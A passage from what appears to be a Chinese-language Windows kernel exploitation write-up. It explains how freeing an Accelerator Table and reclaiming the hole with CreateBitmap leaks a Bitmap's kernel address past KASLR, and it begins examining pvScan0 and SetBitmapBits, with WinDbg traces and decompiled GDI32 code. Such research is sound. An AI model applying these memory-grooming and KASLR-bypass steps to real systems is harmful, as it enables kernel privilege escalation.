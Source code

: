  句柄虽然改变但是对应索引位置在shared info handle entry的值仍然是相同的，这样，再次在相同位置申请bitmap，首先释放，来看下pkernelAddress的值：

```
kd&gt; p
0033:00007ff6`95611311 ff15111f0000    call    qword ptr [00007ff6`95613228]
kd&gt; p
0033:00007ff6`95611317 33c9            xor     ecx,ecx
kd&gt; dd ffffbad381be7000//查看GDI对象的内容也被释放
ffffbad3`81be7000  ???????? ???????? ???????? ????????
ffffbad3`81be7010  ???????? ???????? ???????? ????????
ffffbad3`81be7020  ???????? ???????? ???????? ????????
```

指向的空间也被释放了，随后通过CreateBitmap申请bitmap，大小同样是700，来占用Accelerator制造的稳定内存空洞。调用CreateBitmap之后占用了内存空洞。这样，我们直接找到ffffbad381be7000这个GDI对象。

```
kd&gt; p//调用CreateBitmap创建Bitmap
0033:00007ff6`95611345 ff15dd1c0000    call    qword ptr [00007ff6`95613028]
kd&gt; p//创建成功返回
0033:00007ff6`9561134b 488906          mov     qword ptr [rsi],rax
kd&gt; dd ffffbad381be7000//查看原来Accelerator Table的内核地址位置的值
ffffbad3`81be7000  96050bd0 ffffffff 00000000 00000000
```

可以看到，我们成功获得了Bitmap的pkernelAddress，就是0xffffffff96050bd0，这样，我们就成功在KASLR和fix GdiSharedHandleTable下，完成了bitmap pkernelAddress的获取。

**<br>**

**SetBitmap/GetBtimap和pvScan0**

利用gSharedInfo获取aheList，从而得到Accelerator Table在gshareInfo中的GDI对象从而获得内核地址，利用Accelerator Table制造稳定的内存空洞，最后绕过KASLR和获取Bitmap的pkernelAddress的目的就是获得pvScan0这个结构，这个是Bitmap之所以成为data attack的核心。

这里我要提一下，在调试过程中，我们需要用__asm int 3来下断点，但是在64位下VS不支持内联汇编，因此我们在项目中创建一个.asm文件，实现int 3功能，再将其编译，在项目主文件中用Int_3()来下软中断（详见我的源码），这样我们在SetBitmap下断点，首先命中GDI32!SetBitmapBitsStub：

```
kd&gt; p
GDI32!SetBitmapBitsStub+0x1c:
0033:00007fff`bd5b44ac 488bd9          mov     rbx,rcx
kd&gt; p//调用GDI32的IsTextOutAPresent -&gt; IsSetWorldTransformImplPresent函数
GDI32!SetBitmapBitsStub+0x1f:
0033:00007fff`bd5b44af e878b50000      call    GDI32!IsTextOutAPresent (00007fff`bd5bfa2c)
```

随后会到达call IsTextOutAPresent函数调用，这个函数在GDI32的实现是IsSetWorldTransformmImplPresent。 

```
char IsSetWorldTransformImplPresent()
`{`
  char result; // al@2
  char v1; // [sp+30h] [bp+8h]@5
 
  if ( dword_18002E670 == 1 )//dword_18002E670检查是否为1
  `{`
    result = dword_18002E670;
  `}`
  else if ( dword_18002E670 == 2 || (v1 = 0, ApiSetQueryApiSetPresence((__int64)L"LN", (__int64)&amp;v1) &lt; 0) )
  `{`
    result = 0;
  `}`
  else
  `{`
    result = v1;
    dword_18002E670 = 2 - (v1 != 0);
  `}`
  return result;
```